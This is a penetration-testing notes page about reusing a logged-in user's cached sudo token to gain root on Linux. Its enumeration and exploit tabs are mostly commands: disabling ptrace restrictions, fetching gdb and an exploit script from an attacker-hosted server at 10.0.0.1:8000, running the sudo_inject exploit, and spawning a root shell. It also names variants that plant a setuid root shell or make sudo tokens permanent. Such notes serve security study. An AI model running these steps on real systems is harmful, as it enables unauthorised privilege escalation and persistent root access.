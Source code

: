 # Reuse Sudo Tokens

## Theory 

In the scenario where you have a shell as a user with sudo privileges but you don't know the password of the user, you can wait for him/her to execute some command using sudo. Then, you can access the token of the session where sudo was used and use it to execute anything as sudo (privilege escalation).

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
Requirements to escalate privileges:

- The user have used sudo to execute something in the **last 15mins** (by default that's the duration of the sudo token that allows us to use sudo without introducing any password)
- There is no restriction on ptrace
```bash
cat /proc/sys/kernel/yama/ptrace_scope
0

# We can temporariliy set 0 if we have permissions.
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```
- gdb is accessible (you can be able to upload it)
```bash
# In local machine, download the debian package.
wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb -O gdb.deb
python3 -m http.server

# In remote machine, download the deb package and extract it.
wget http://10.0.0.1:8000/gdb.deb
dpkg -x gdb.deb ~
```

{% endtab %}

{% tab title="Exploit" %}
Prepare the exploit script from the [sudo_inject](https://github.com/nongiach/sudo_inject) repo and execute it.
```bash
# In local machine, download the shell script to exploit.
wget https://github.com/nongiach/sudo_inject/blob/master/exploit.sh
python3 -m http.server

# In remote machine, download it and execute.
wget http://10.0.0.1:8000/exploit.sh
sh exploit.sh
```

After that, we can spawn a sudo shell, or execute command as sudo with the token
```bash
#Activate the token
/tmp/activate_sudo_token

#Enjoy
sudo su
sudo /usr/bin/sudo-bin
```

{% hint style="info" %}
exploit.sh ->    will create the binary activate_sudo_token in /tmp
exploit_v2.sh -> will create a sh shell in /tmp owned by root with setuid
exploit_v3.sh -> will create a sudoers file that makes sudo tokens eternal and allows all users to use sudo
{% endhint %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/#reuse-sudo-tokens" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens" %}

